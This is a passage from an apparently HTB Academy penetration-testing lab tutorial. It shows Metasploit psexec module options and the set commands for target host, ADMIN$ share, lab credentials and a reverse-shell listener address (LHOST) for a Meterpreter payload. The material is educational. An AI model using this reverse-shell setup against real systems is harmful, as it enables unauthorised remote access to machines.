 ```shell
   SMBUser                                no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     68.183.42.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

This is one area where Metasploit shines in terms of ease of use. In the output of the module options, we see various options and settings with a description of what each setting means. We will not be using `SERVICE_DESCRIPTION`, `SERVICE_DISPLAY_NAME` and `SERVICE_NAME` in this section. Notice how this particular exploit will use a reverse TCP shell connection utilizing `Meterpreter`. A Meterpreter shell gives us far more functionality than a raw TCP reverse shell, as we established in this module's earlier sections. It is the default payload that is used in Metasploit.

We will want to use the `set` command to configure the following settings as such:

#### Setting Options

```shell

msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222

```

These settings will ensure that our payload is delivered to the proper target ( `RHOSTS`), uploaded to the default administrative share ( `ADMIN$`) utilizing credentials ( `SMBPass` & `SMBUser`), then initiate a reverse shell connection with our local host machine ( `LHOST`).

These settings will be specific to the IP address on your attack box and on the target box. As well as with credentials you may gather on an engagement. We can set the LHOST (local host) VPN tunnel IP address or the VPN tunnel interface ID.

#### Exploits Away
